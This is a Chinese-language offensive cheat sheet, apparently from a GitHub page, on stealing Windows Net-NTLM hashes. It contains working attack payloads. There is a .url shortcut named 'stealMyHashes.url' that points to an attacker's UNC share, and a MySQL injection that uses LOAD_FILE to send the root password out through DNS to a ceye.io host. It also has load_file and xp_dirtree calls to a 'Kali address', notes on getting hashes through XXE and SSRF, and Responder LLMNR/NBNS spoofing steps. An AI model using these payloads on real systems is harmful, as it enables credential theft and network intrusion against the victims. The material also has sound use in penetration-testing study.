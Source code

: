 **Internet Shortcuts (.url)**

Windows 中的另一个快捷方式是 Internet 快捷方式，你可以将下面这个存储为 .url 文件：
```
echo [InternetShortcut] > stealMyHashes.url
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

### 通过 web 漏洞

- xxe

  在 xxe 里面加载外部文件的时候，如果路径支持 unc 路径的话，是能拿到 net-ntlm hash 的。

  如果不支持 UNC，可再测试 http 协议。

- ssrf

  在 ssrf 里面如果支持 file 协议，并且 file 协议能加载远程资源的话，是能拿到 net-ntlm hash 的。

  当只支持 HTTP 协议的时候，也是可能打回 net-ntlm hash 的。

- XPath Injection
- 远程文件包含
- SQL Injection
  - MySQL
    在 MySQL 注入的话，可以通过带外通信把数据带出来
    ```
    SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.xxx.ceye.io\\abc'));
    ```
    需要具备 loadfile 权限，且没有 securefile_priv 的限制 (5.5.53 默认是空，之后的话默认为 NULL 就不好利用了, 不排除一些管理员会改)

    LOAD_FILE 是支持 UNC 路劲,构造
    ```
    select load_file('\\\\<Kali address>\\mysql');
    ```
  - mssql

    或者配合 mssql
    ```
    xp_dirtree "\\<Kali address>\aaa.com"
    ```

### 通过错误域名获取hash

Responder 还有通过 http 协议来骗取 hash 值的功能，由于 win7 默认会尝试通过 LLMNR、NBNS 协议解析域名，那么 win7 输入错误域名后会被欺骗并解析到 kali，随后 responder 会要求 NTLM 认证，受害机器就会发送 hash 值。

需要交互获取 hash 值,进行下测试，开启 responder、win7 打开 ie 浏览器访问一个不存在的域名

chrome 在开启 WPAD 设置时也会默认被欺骗(默认开启),firefox不会有这个问题
